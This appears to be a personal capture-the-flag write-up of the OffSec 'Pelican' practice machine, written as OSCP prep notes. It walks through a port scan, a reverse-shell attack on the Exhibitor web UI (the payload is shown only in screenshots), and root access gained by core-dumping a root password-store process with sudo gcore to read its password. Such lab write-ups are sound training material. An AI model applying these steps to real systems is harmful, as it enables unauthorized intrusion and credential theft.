**Start 11:48 14-09**

```
Author:
OffSec

Released on:
Oct 11, 2020
```

---
```
192.168.203.98
```
## Recon

==Nmap==
```bash
┌──(kali㉿kali)-[~]
└─$ nmap -sC -sV -sT -vvvv -T5 -p- 192.168.203.98

PORT      STATE SERVICE     REASON  VERSION
22/tcp    open  ssh         syn-ack OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 a8:e1:60:68:be:f5:8e:70:70:54:b4:27:ee:9a:7e:7f (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDssyyACw3AHaTatHhBU1VyBRbKOirrDG8M9IjpJPTf/v8mdIqiXk1HsBdoFZcsmWJVV4OXC7GMcHa+s0tZceTmgGf5TpiCB2yXUYPZre183LjJWM6KQMZVI0LHz9Yd3ji2bdD5jjtVxwnjrdx8GlU1THMGbzZivfSsPF18arMIq3ukYBS09Ov1SIKR4DJ7pjtBRutRBZKI/8/H+uB2u47AQRwbWuVaOmtZyDrfvgL/IqAFRQrbeP1VNQAErzHl8wNuk1vR+yROv0j7smTqoqqc8aB751O63gtBdCvKzpigwFDLyxYuzu8dW1Hh6ZQzaQZgWkw6SZeExAijK7yXSU61
|   256 bb:99:9a:45:3f:35:0b:b3:49:e6:cf:11:49:87:8d:94 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBNUPmkVV/Q+iD07j1sFmdFWp7yppofTTgfzAhvMkyGPulIdMDbzFgW/pRAq3R3zZV7aEcWAMfFHgdXfj3W4FUuc=
|   256 f2:eb:fc:45:d7:e9:80:77:66:a3:93:53:de:00:57:9c (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIIPO1eLYoJ0AhVJ5NIDfaSrfUis34Bw5bKMMdFWzHPx0
139/tcp   open  netbios-ssn syn-ack Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp   open  netbios-ssn syn-ack Samba smbd 4.9.5-Debian (workgroup: WORKGROUP)
631/tcp   open  ipp         syn-ack CUPS 2.2
| http-methods: 
|   Supported Methods: GET HEAD OPTIONS POST PUT
|_  Potentially risky methods: PUT
|_http-server-header: CUPS/2.2 IPP/2.1
|_http-title: Forbidden - CUPS v2.2.10
2181/tcp  open  zookeeper   syn-ack Zookeeper 3.4.6-1569965 (Built on 02/20/2014)
2222/tcp  open  ssh         syn-ack OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 a8:e1:60:68:be:f5:8e:70:70:54:b4:27:ee:9a:7e:7f (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDssyyACw3AHaTatHhBU1VyBRbKOirrDG8M9IjpJPTf/v8mdIqiXk1HsBdoFZcsmWJVV4OXC7GMcHa+s0tZceTmgGf5TpiCB2yXUYPZre183LjJWM6KQMZVI0LHz9Yd3ji2bdD5jjtVxwnjrdx8GlU1THMGbzZivfSsPF18arMIq3ukYBS09Ov1SIKR4DJ7pjtBRutRBZKI/8/H+uB2u47AQRwbWuVaOmtZyDrfvgL/IqAFRQrbeP1VNQAErzHl8wNuk1vR+yROv0j7smTqoqqc8aB751O63gtBdCvKzpigwFDLyxYuzu8dW1Hh6ZQzaQZgWkw6SZeExAijK7yXSU61
|   256 bb:99:9a:45:3f:35:0b:b3:49:e6:cf:11:49:87:8d:94 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBNUPmkVV/Q+iD07j1sFmdFWp7yppofTTgfzAhvMkyGPulIdMDbzFgW/pRAq3R3zZV7aEcWAMfFHgdXfj3W4FUuc=
|   256 f2:eb:fc:45:d7:e9:80:77:66:a3:93:53:de:00:57:9c (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIIPO1eLYoJ0AhVJ5NIDfaSrfUis34Bw5bKMMdFWzHPx0
8080/tcp  open  http        syn-ack Jetty 1.0
|_http-server-header: Jetty(1.0)
|_http-title: Error 404 Not Found
8081/tcp  open  http        syn-ack nginx 1.14.2
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: nginx/1.14.2
|_http-title: Did not follow redirect to http://192.168.203.98:8080/exhibitor/v1/ui/index.html
46295/tcp open  java-rmi    syn-ack Java RMI
Service Info: Host: PELICAN; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 42661/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 56802/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 5883/udp): CLEAN (Failed to receive data)
|   Check 4 (port 49480/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.9.5-Debian)
|   Computer name: pelican
|   NetBIOS computer name: PELICAN\x00
|   Domain name: \x00
|   FQDN: pelican
|_  System time: 2024-09-14T05:50:39-04:00
|_clock-skew: mean: 1h20m06s, deviation: 2h18m35s, median: 5s
| smb2-time: 
|   date: 2024-09-14T09:50:37
|_  start_date: N/A
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
```

I add the host as `pelican.offsec` in my `/etc/hosts` file and get to enumerating the ports.


==SMB==
I started off with enumerating the `SMB` port but found nothing of us:



Since we have no access I decided to skip this port.


==CUPS==
Since I've never heard of this before I decided to look it up [on this site](https://book.hacktricks.xyz/network-services-pentesting/pentesting-631-internet-printing-protocol-ipp) and found the following info on it:



This might be useful? But for now I decided to enumerate further.


==Zookeeper==
I looked up whether this `3.4.6` version is vulnerable and it does appear to be so:



I saw the `Exhibitor Web UI` on `Exploit-db` and got interested. From the `nmap` scan I found the following juicy info:



It mentioned the same exact name as the one in `exploit-db` so I used curl on this address to find out what was on here:



Interesting, I decided to check out the `CVE` on [exploit-db](https://www.exploit-db.com/exploits/48654):



Sounds promising so I decided to start off with this port.


## 8081/TCP - Exhibitor

I followed the `url` from the `nmap` script and came to find the following:



It does look promising, so I followed the `CVE` steps:



I started off by going to the `Config` tab -> `Editing - ON`:



I then booted up a `listener`:

```bash
nc -lvnp 1234
```

And proceeded to enter the reverse shell payload in the `java.env` field:



I then clicked on `Commit` in the top bar and `All at Once...` -> `OK`




Once done I checked my listener and it worked!



I stabilized the shell and used `ls -l` to check the directory:



I found the `local.txt` in the user's home directory.




## Privilege Escalation

After getting the `local.txt` flag I used `sudo -l` to check my privileges and found the following:



Apparently we have privileges to use `/usr/bin/gcore` without a password.

I used `ls -l` on this script to check what privileges on it I had:

```bash
charles@pelican:/usr/bin$ ls -l gcore
ls -l gcore
-rwxr-xr-x 1 root root 3422 Oct 14  2019 gcore
```

Then I used `cat` to read the script:

```bash
#!/usr/bin/env bash

#   Copyright (C) 2003-2018 Free Software Foundation, Inc.

# This program is free software; you can redistribute it and/or modify
# it under the terms of the GNU General Public License as published by
# the Free Software Foundation; either version 3 of the License, or
# (at your option) any later version.
#
# This program is distributed in the hope that it will be useful,
# but WITHOUT ANY WARRANTY; without even the implied warranty of
# MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
# GNU General Public License for more details.
#
# You should have received a copy of the GNU General Public License
# along with this program.  If not, see <http://www.gnu.org/licenses/>.

#
# Script to generate a core file of a running program.
# It starts up gdb, attaches to the given PID and invokes the gcore command.
#

# Need to check for -o option, but set default basename to "core".
name=core

# When the -a option is present, this may hold additional commands
# to ensure gdb dumps all mappings (OS dependent).
dump_all_cmds=()

while getopts :ao: opt; do
    case "$opt" in
        a)
            case "$OSTYPE" in
                linux*)
                    dump_all_cmds=("-ex" "set use-coredump-filter off")
                    dump_all_cmds+=("-ex" "set dump-excluded-mappings on")
                    ;;
            esac
            ;;
        o)
            name=$OPTARG
            ;;
        *)
            echo "usage:  gcore [-a] [-o filename] pid"
            exit 2
            ;;
    esac
done

shift $((OPTIND-1))

if [ "$#" -eq "0" ]
then
    echo "usage:  gcore [-a] [-o filename] pid"
    exit 2
fi

# Attempt to fetch the absolute path to the gcore script that was
# called.
binary_path=`dirname "$0"`

if test "x$binary_path" = x. ; then
  # We got "." back as a path.  This means the user executed
  # the gcore script locally (i.e. ./gcore) or called the
  # script via a shell interpreter (i.e. sh gcore).
  binary_basename=`basename "$0"`

  # If the gcore script was called like "sh gcore" and the script
  # lives in the current directory, "which" will not give us "gcore".
  # So first we check if the script is in the current directory
  # before using the output of "which".
  if test -f "$binary_basename" ; then
    # We have a local gcore script in ".".  This covers the case of
    # doing "./gcore" or "sh gcore".
    binary_path="."
  else
    # The gcore script was not found in ".", which means the script
    # was called from somewhere else in $PATH by "sh gcore".
    # Extract the correct path now.
    binary_path_from_env=`which "$0"`
    binary_path=`dirname "$binary_path_from_env"`
  fi
fi

# Check if the GDB binary is in the expected path.  If not, just
# quit with a message.
if [ ! -f "$binary_path/gdb" ]; then
  echo "gcore: GDB binary (${binary_path}/gdb) not found"
  exit 1
fi

# Initialise return code.
rc=0

# Loop through pids
for pid in "$@"
do
        # `</dev/null' to avoid touching interactive terminal if it is
        # available but not accessible as GDB would get stopped on SIGTTIN.
        "$binary_path/gdb" </dev/null --nx --batch \
            -ex "set pagination off" -ex "set height 0" -ex "set width 0" \
            "${dump_all_cmds[@]}" \
            -ex "attach $pid" -ex "gcore $name.$pid" -ex detach -ex quit

        if [ -r "$name.$pid" ] ; then
            rc=0
        else
            echo "gcore: failed to create $name.$pid"
            rc=1
            break
        fi


done

exit $rc
```

Upon reading the script it seems to be a `utility` that creates `core dumps` of running processes. 

A `core dump` contains a snapshot of a `program's memory` at a specific time. If we create a core dump on a process running under `root` we may be able to escalate privileges.

We can check any and all running processes using the following command:

```bash
ps aux | grep root
```

This gave me a huge output of which the following was deemed interesting:

```bash
charles@pelican:/$ ps aux | grep root
ps aux | grep root

root       490  0.0  0.0   2276    72 ?        Ss   05:47   0:00 /usr/bin/password-store
```

To create a core dump of this process I used the following command:

```bash
sudo /usr/bin/gcore 490
```



I then used the following command to read the core dump:

```bash
strings core.490 | less
```

I scrolled down a bit until I found the password inside the dump which I then used to escalate privileges with.





After I got `root` access I changed to the `home` directory and used `cat proof.txt`



---

**Finished 12:58 14-09**

[^Links]: [[OSCP Prep]] 